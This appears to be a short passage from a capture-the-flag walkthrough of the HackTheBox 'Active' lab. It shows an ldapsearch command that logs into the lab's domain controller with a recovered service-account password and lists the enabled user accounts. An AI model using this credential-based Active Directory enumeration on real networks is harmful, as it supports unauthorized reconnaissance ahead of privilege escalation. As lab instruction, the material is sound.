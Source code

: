 
ldapsearch can now be used to query the Domain Controller for Active Directory

```
ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b
"dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!
(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountName

sAMAccountName: Administrator
sAMAccountName: SVC_TGS
```



